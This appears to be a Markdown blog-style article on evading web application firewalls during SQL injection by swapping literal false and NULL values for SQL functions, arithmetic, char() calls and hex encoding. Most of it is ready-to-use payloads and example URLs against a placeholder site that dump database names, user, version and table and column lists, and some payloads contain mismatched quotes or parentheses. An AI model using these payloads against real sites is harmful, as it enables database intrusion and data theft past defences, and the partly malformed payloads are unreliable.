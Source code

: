 ```yaml
---
title: Case study on SQL Injection WAF bypassing via SQL Functions
updated: 2021-09-05 13:55
---
```


## The traditional way using And 0

The ordinary usage of And 0 is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.

```
And 1=0
And false
And 0
And 1
And 50=60
Any number that are not the same will equal to (0, false, null)
```

## The alternative way of using And 0

The following methods are newly discovered queries which are supported by it’s respective SQL, as a new way of declaring false, null or 0 value(s).

1) Any **Mathematical/Arithmetic** or **Logical Problem** that equal to 0

```
And 1*0
And 1-1
And 0/1
```
For example:  
http://website.com/index.php?id=1’ and 1*0 order by 10--

2) Using **MOD()**

```
SELECT mod(10, 2);
```

The used mod() Function will output to 0

For example:  
http://website.com/index.php?id=1 and mod(29,9) Order by 10--

3) Using **POINT()**

```
SELECT point(29, 9);
```
For example:  
http://website.com/index.php?id=1 and point(29,9) Order by 10--

4) Using **POWER()**

```
SELECT power(5,5);
```
For example:  
http://website.com/index.php?id=1 and power(5,5) Order by 10--

## Illegal parameter data types

Error notification Illegal parameter data types INT and row for operation '=', is related to the data type of column included in the condition. The problem can occur because of many reasons.

1) For operation **MOD**
```
% = Modulo
```
For example:
http://website.com/index.php?id=1 % point(29,9) Order by 10--

2) For operation **&**
```
& = Bitwise And
&& = Logical And
```
For example:  
http://website.com/index.php?id=1 && point(29,9) Order by 10--

3) For operation **OR**
```
| = Bitwise OR
|| = Logical OR, sometimes use for Concatanation
```
For example:  
http://website.com/index.php?id=1 || point(29,9) Order by 10--

## The traditional way of using Null

The ordinary usage of Null is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.
```
Union Select null, null, null, null
```

## The alternative way of using Null

1) Using **0**
```
UNION SELECT 0,0,0,0
```
For example:  
http://website.com/index.php?id=1 div **0** Union Select **0**,**0**,**0**,**0** (SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**0**,**0**--+"

2) Using **false**
```
UNION SELECT false,false,false,false
```
For example:  
http://website.com/index.php?id=1 div **false** Union Select **false**,**false**,**false**,**false**,SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**false**--+

3) Using char()
```
UNION SELECT char(null),char(null),char(null),char(null)
UNION SELECT char(false),char(false,char(false),char(false)
UNION SELECT char(0),char(0),char(0),char(0)
UNION SELECT char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c)
```
For example:  
http://website.com/index.php?id=1 div **char(false)** Union Select "**char(false)** div **char(false)** Union Select **char(false)**,**char(false)**,**char(false)**,**char(false)**,concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User ::',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),**char(false)**--+",**char(false)**,**char(false)**,**char(false)**,**char(false)**,**char(false)**--+

4) Using **Arithmetic** or **Logical Operator**
```
UNION SELECT (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
UNION SELECT 34=35,34=35,34=35,34=35
```
For example:  
```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database ::',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0), (0*1337-0),(0*1337-0),(0*1337-0)--+
```

## Bypassing Static Web Application Firewall with 0xHEX values

Since 0xHEX values are accepted and widely used in SQL Queries and Injection payloads, it is a great way to bypass static-based Firewalls. Using this technique, it is possible to avoid using words such as **NULL**, **false**, or ‘ (single quotes). Below are existing payload, but their respective values are converted to 0xHEX format.

```
SELECT CHAR(NULL); → SELECT CHAR(0x4e554c4c);
SELECT CHAR(0) → SELECT CHAR(0x30);
SELECT MOD(29, 9); → SELECT MOD(0x3239, 0x34);
SELECT POINT(29, 9); → SELECT POINT(0x3239, 0x39);
```
